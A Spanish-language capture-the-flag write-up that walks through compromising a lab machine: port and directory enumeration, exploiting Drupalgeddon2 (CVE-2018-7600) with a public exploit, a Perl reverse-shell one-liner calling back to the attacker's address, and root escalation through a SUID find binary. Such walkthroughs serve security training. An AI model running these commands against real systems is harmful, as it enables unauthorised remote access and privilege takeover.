

## Resumen

Es una maquina de dificultad fácil en la que se tiene que explotar una version de drupal vulnerable y luego escalar privilegios vía SUID.

## Enumeración

Empiezo haciendo un ping a la máquina para ver qué TTL devuelve y así saber qué SO usa.

`ping -c 1 172.17.0.2` `64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.068 ms`

Con esto sé que es una máquina Linux.

Sigo enumerando los puertos abiertos con nmap.

`nmap -sVC -p- --min-rate 5000 172.17.0.2 -oG nmap`

 

```
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.25 (Debian)
MAC Address: 52:39:EA:AE:69:84 (Unknown)
Service Info: Host: 172.17.0.2
```

Veo que solo hay un Apache que pone "forbidden" así que empiezo a analizarlo.

Puertos encontrados:

`Apache/80`

## Análisis puerto 80

Empiezo haciendo un curl a la web y veo que devuelve que no tenemos permiso para acceder.

`curl -s http://172.17.0.2`

```
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /
on this server.<br />
</p>
<hr>
<address>Apache/2.4.25 (Debian) Server at 172.17.0.2 Port 80</address>
</body></html>
```

Viendo esto decido seguir con gobuster para enumerar subdirectorios.

`gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -b "403, 404" -t 20`

- `-b "403, 404"` excluye de los resultados las respuestas con esos códigos de estado.
- `-t 20` usa 20 hilos para ir más rápido.

```
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
drupal               (Status: 301) [Size: 309] [--> http://172.17.0.2/drupal/]
Progress: 220557 / 220557 (100.00%)
===============================================================
Finished
===============================================================

```

Veo que encuentra `drupal` así que entro para intentar encontrar versiones o algo interesante.

Al entrar veo que tiene un sistema de login y la página por defecto.

![!\[\[Pasted image 20261107140758.png\]\]](Imagenes/default.png)

Investigando la página se puede encontrar un meta header con:

`<meta name="Generator" content="Drupal 8 (https://www.drupal.org)" />`

## Explotación

Teniendo esto decido buscar alguna vulnerabilidad con searchsploit.

`searchsploit Drupal 8`

![[Captura de pantalla 2026-11-07 141513.png]]

De todas las opciones me quedo con la siguiente, que corresponde a **Drupalgeddon2** (CVE-2018-7600), un RCE que afecta a Drupal < 7.58 / 8.x < 8.3.9 / 8.4.x < 8.4.6 / 8.5.x < 8.5.1:

![!\[\[Pasted image 20261107141825.png\]\]](Imagenes/searchsploit.png)

Bajo el exploit con `searchsploit -m php/webapps/44449.rb`.

Lo ejecuto.

`ruby 44449.rb 172.17.0.2/drupal`

Y se nos abre una pseudoshell.



Antes de seguir con la escalada de privilegios intento conseguir una shell via revshell.

Ponemos el listener.

`nc -lvnp 4444`

Ejecutamos la revshell.

`perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"172.17.0.1:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

Y conseguimos acceso como `www-data`.

Una vez dentro estabilizamos la shell.

```
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

## Escalada de privilegios

Una vez dentro empiezo con `sudo -l`

`sudo -l`

```
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.


```

Lo descarto, sigo con los binarios SUID.

`find / -perm -4000 -type f 2>/dev/null`

```
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/find
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/sudo
/bin/umount
/bin/su
/bin/mount
```

Veo un SUID sospechoso:

`/usr/bin/find`

Y al consultarlo en GTFOBins veo que permite la escalada de privilegios.

Lo ejecuto.

```
find . -exec /bin/sh -p \; -quit
```

- `find .` busca archivos empezando desde el directorio actual.
- `-exec /bin/sh -p \;` ejecuta `/bin/sh` por cada resultado encontrado; el flag `-p` hace que la shell no abandone los privilegios y mantenga el UID efectivo de root (heredado del SUID).
- `-quit` hace que `find` pare tras la primera ejecución.

Comprobamos qué permisos tenemos.

```
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

Y vemos el contenido de la flag en `/root`.

```
cat secretitomaximo.txt
REDACTED[****]
```

## Flujo de ataque

1. **Enumeración:** Se encuentra el puerto 80 abierto pero se nos restringe la entrada a Apache.
2. **Análisis puerto 80:** Usamos gobuster para enumerar directorios y encontramos el directorio `/drupal` y su versión, `Drupal 8`.
3. **Explotación:** Encontramos con searchsploit que la versión de Drupal es vulnerable a RCE (Drupalgeddon2), así que la explotamos primero consiguiendo una pseudoshell y luego, mediante una revshell, el usuario `www-data`.
4. **Escalada de privilegios:** Comprobando los binarios SUID se encuentra `/usr/bin/find`, que explotamos para conseguir una shell con UID de `root`.